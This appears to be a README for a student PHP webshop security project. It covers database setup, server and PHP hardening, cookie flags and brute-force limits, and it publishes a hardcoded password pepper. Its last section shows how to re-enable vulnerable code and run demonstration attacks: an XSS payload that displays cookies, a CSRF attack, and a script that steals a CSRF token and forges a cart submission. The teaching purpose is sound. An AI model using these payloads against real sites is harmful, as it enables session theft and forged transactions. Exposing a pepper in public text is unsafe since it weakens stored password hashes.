 # web_security

## Database Setup

### Accessing Your Database in phpMyAdmin:

1. **Open phpMyAdmin:**
   - Navigate to `http://localhost/phpmyadmin` in your browser.
   
2. **Select Database:**
   - Click on your `webshop_db` database to select it.
   
3. **Navigate to SQL Tab:**
   - In your database, click on the "SQL" tab at the top of the phpMyAdmin interface for SQL queries.

### Writing and Executing SQL Queries:

- In the SQL query text area, write your SQL commands to create tables.
- Copy the content of the webshop_db.sql file and paste it ti the SQL query text area
- After pasting the content of the file, click the "Go" button in phpMyAdmin to execute the query.

### Test Connection:

- Visit `https://localhost/webshop/test_connection.php` to test database connection.

### Sample Data Insertion:

```sql
INSERT INTO products (name, description, price, stock, image) VALUES 
('First Product', 'Description for first product', 99.99, 10, '1.png'),
('Second Product', 'Description for second product', 149.99, 5, '2.png'),
('Third Product', 'Description for Third product', 49.99, 5, '3.png'),
('Fourth Product', 'Description for Fourth product', 49.99, 0, '4.png');
```

-------------------------------
### Password Handling:

- Use a pepper for added security: `kQa9e4v8Jy3Cf1u5Rm7N0w2Hz8G6pX`.
- The `password_hash` function should concatenate the password with the pepper, generate a random salt, hash the concatenated string with the salt, and return the complete hash string.

### Brute Force Attack Mitigation:

- Implement a strategy to mitigate brute-force attacks by tracking consecutive failed login attempts and imposing delays after a threshold is reached.

- After each failed login attempt, increment a counter in the user's session or database.
- If the counter exceeds a certain number (e.g., 3 attempts), record the time of the last failed attempt.
- When the user tries to log in, check the time of the last failed attempt. If it was less than 30 minutes ago and the counter -is over the threshold, deny the login attempt.
- If the login is successful, reset the counter.

--------------------------------
## Server and PHP configuration and protection from attacks
**Protection from attacks**: Giving an attacker specific information about version
  numbers will greatly simplify the process of attacking the server. In Apache, the
  directive ServerTokens is used to control what information is given to clients.<br>
  ServerTokens Prod Apache<br>
  ServerTokens Major Apache/2<br>
  ServerTokens Minor Apache/2.2<br>
  ServerTokens Min Apache/2.2.14<br>
  ServerTokens OS Apache/2.2.14 (Ubuntu)<br>
  ServerTokens Full Apache/2.2.14 (Ubuntu) PHP/5.3.2-1ubuntu4.9<br>
**Action**: change the conf "ServerTokens Full" to "ServerTokens Prod"<br>
**How**: go to C:\xampp\apache\conf\extra\httpd-default.conf and change the line "ServerTokens Full" to "ServerTokens Prod"<br><br>

**Protection from attack**: PHP will by default send information about the fact that PHP is used and which version. It can be valuable information for an attacker.
  <br>**Action**: By default, an X-Powered-By header is added to the HTTP response, specifying the PHP version in use. This information can be suppressed using the expose php = Off directive. Some combinations are given below.<br>
  **How**: go to following files and change the line "expose_php = On" to "expose_php = Off"<br>
  "C:\xampp\php\php.ini" and "C:\xampp\php\php.ini-development" and "C:\xampp\php\windowsXamppPhp\php.ini-development" and "C:\xampp\php\php.ini-production" and "C:\xampp\php\windowsXamppPhp\php.ini-production"
  <br><br>

**Protection from attack**: once the application is in production, errors reporting should be turned off. Errors can give valuable information to an attacker, e.g., file paths, file names, uninitialized variables, and arguments to functions, which in the worst case could include passwords to databases used.
  <br>**Action**: Error reporting is controlled in php.ini. The directive display errors specifies if errors should be displayed on the screen. This defaults to On but should be turned off in production stage.
  <br>**How**: go to following files and change the line "display_errors = On" to "display_errors = Off"
  <br>"C:\xampp\php\php.ini" and "C:\xampp\php\php.ini-development" and "C:\xampp\php\windowsXamppPhp\php.ini-development" and "C:\xampp\php\php.ini-production" and "C:\xampp\php\windowsXamppPhp\php.ini-production"
  <br><br>**Protection from attack**: Instead, errors should be logged to a file.
  <br>**Action**: This can be done by setting log errors = On and specifying the file to log to using the directive error log.
  <br>**How**: go to following files and change the line "log_errors = Off" to "log_errors = On"
  <br>"C:\xampp\php\php.ini" and "C:\xampp\php\php.ini-development" and "C:\xampp\php\windowsXamppPhp\php.ini-development" and "C:\xampp\php\php.ini-production" and "C:\xampp\php\windowsXamppPhp\php.ini-production"
  <br><br>Additionally, go to C:\xampp\php and create a file called "logs" and in that file create a file called "php_errors_log.txt"
  Then go to following files and change the line "error_log = php_errors_log" to "error_log = C:\xampp\php\logs\php_errors_log.txt"



**Wither or not to add the httpOnly flag to the cookie, which makes it
  inaccessible to browser scripting languages such as JavaScript.
  session.cookie_httponly=1**
**Wither or not to add the secure flag to the cookie, which makes it only
  accessible over a secure connection such as HTTPS.
  session.cookie_secure =1**

**The SameSite cookie attribute can prevent the browser from sending cookies along
  with cross-site requests. This can be useful to mitigate CSRF (Cross-Site Request Forgery) attacks
  session.cookie_samesite="Strict"**



**Another protection is of course to not allow the session ID to be sent in
  the URL at all. This is accomplished using session.use only cookies = 1**


--------------------------------
## To see example How the attack can work and the code can be vulnerable to it, do the following:
### XSS attack: 
1. Go to the search.php and comment the lines 89 and 107 and remove the comments from lines 90,108.
2. Go to  any page and enter the following in the search field: <script>alert(document.cookie)</script>
3. Click on the login button and you will see a pop up with the cookie information.

### CSRF attack: 
1. Go to the cart.php and comment the lines 2-6.
2. Go to the index.php and comment the lines 3-5 , 8-12, 27-31 and 116. 
3. Go to the search.php and comment the lines 3-5 , 19-21, 27-31 and 67. 
4. Go to Csrf.html and modify "webSecurityProject" to your project localhost name.
5. Open CSRF.html and click on the button and you will see that the cart is updated with the product.

### CSRF using XSS attack:
1. Go to the index.php and comment the lines 8-12.
2. Go to the search.php and comment the lines 2-6.
3. Go to home page and enter the following in the search field: 
```
  <script>
    
        /* Fetch the CSRF token */
        var tokenElement = document.querySelector('input[name="csrf_token"]');
        if (!tokenElement) {
            console.error('CSRF token element not found.');
        } else {
            var token = tokenElement.value;

            /* Create a new form */
            var form = document.createElement('form');
            form.action = 'http://localhost/webSecurityProject/index.php';
            form.method = 'POST';

            /* Create the hidden input fields */
            var product_id = document.createElement('input');
            product_id.type = 'hidden';
            product_id.name = 'product_id';
            product_id.value = '1';

            var product_price = document.createElement('input');
            product_price.type = 'hidden';
            product_price.name = 'product_price';
            product_price.value = '10000.00';
            
            var add_to_cart = document.createElement('input');
            add_to_cart.type = 'hidden';
            add_to_cart.name = 'add_to_cart';

            var csrf_token = document.createElement('input');
            csrf_token.type = 'hidden';
            csrf_token.name = 'csrf_token';
            csrf_token.value = token;

            /* Append the input fields to the form */
            form.appendChild(product_id);
            form.appendChild(product_price);
            form.appendChild(add_to_cart);
            form.appendChild(csrf_token);

            /* Append the form to the body */
            document.body.appendChild(form);

            /* Submit the form */
            form.submit();
        };
</script>
```
4. Now you can see a product is added to the cart.